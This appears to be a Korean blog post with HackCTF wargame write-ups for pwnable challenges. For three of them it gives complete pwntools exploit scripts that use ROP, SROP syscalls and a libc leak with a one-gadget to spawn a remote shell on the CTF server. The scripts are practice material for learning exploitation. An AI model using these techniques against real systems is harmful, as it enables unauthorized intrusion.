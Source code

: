 ```yaml
---
layout: post
title:  "HackCTF Pwnable - fifth line"
excerpt: "for All Clear HackCTF"
date:   2020-06-14
categories: [wargame]
comments: true
---
```


### 0x0 Beginner_Heap

binary :

exploit :

아직 힙은 멀었다.. 



### 0x1 LookAtMe

binary:

| canary   | fortify  | nx      | pie      | relro   |
| -------- | -------- | ------- | -------- | ------- |
| disabled | disabled | enabled | disabled | partial |

그냥 간단하게 srop를 이용하여 해결

exploit :

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3017)
e = ELF("./lookatme")

pop_eax = 0x80b81c6
pppr = 0x806f050
int80 = 0x806f630
bss = e.bss()

p.recvuntil("o\n")

pay = 'A' * 28
pay += p32(pop_eax)
pay += p32(0x3)
pay += p32(pppr)
pay += p32(8)
pay += p32(bss)
pay += p32(0)
pay += p32(int80)

pay += p32(pop_eax)
pay += p32(0xb)
pay += p32(pppr)
pay += p32(0)
pay += p32(0)
pay += p32(bss)
pay += p32(int80)

p.sendline(pay)

p.send("/bin/sh\x00")

p.interactive()
```

### 0x2  Gift

binary :

| canary   | fortify  | nx      | pie      | relro    |
| -------- | -------- | ------- | -------- | -------- |
| disabled | disabled | enabled | disabled | disabled |

exploit :

```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3018)

pr = 0x804866b
gets_plt = 0x80483d0
binsh = "/bin/sh\00"

p.recvuntil("Hey guyssssssssss here you are: ")
sh_addr = int(p.recv(9),16)
p.recv(1)
sys_addr = int(p.recv(10),16)

pay1 = 'a'
p.sendline(pay1)

pay2 = 'A'  * 136
pay2 += p32(gets_plt)
pay2 += p32(pr)
pay2 += p32(sh_addr)

pay2 += p32(sys_addr)
pay2 += 'A' * 4
pay2 += p32(sh_addr)

p.sendline(pay2)
p.sendline(binsh)
p.interactive()
```

그냥 간단하게 binsh을 입력할 주소와 system 주소를 출력해줘서 rop를 했다. 

### 0x3 Pwning

binary :

| canary   | fortify  | nx      | pie      | relro   |
| -------- | -------- | ------- | -------- | ------- |
| disabled | disabled | enabled | disabled | partial |

exploit : 

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3019)
e = ELF('./pwning')

printf_plt = e.plt['printf']
printf_got = e.got['printf']
main = e.symbols['main']
syscall = 0x80484d0
pr = 0x8048676

p.recv()
p.sendline('-1')

pay = 'A' *(0x2c + 0x4)
pay += p32(printf_plt)
pay += p32(main)
pay += p32(printf_got)

p.sendline(pay)

p.recvuntil('\x08\x0a')

libc = u32(p.recv(4)) - 0x00049020

p.recv()
p.sendline('-1')
p.recv()

pay = 'A' *( 0x2C + 4)
pay += p32(libc + 0x3a812)

p.sendline(pay)

p.interactive()
```

이 문제는 srop랑 원샷가젯을 이용한 풀이도 도전을 해봤는데 실패했다. 

+p.s

뭔가 페이로드를 작성할 때, 값을 분별해서 읽어오는걸 자꾸 헷갈린다.. 열심히 공부하자

릭도 열심히 공부해야 할 것 같다. 
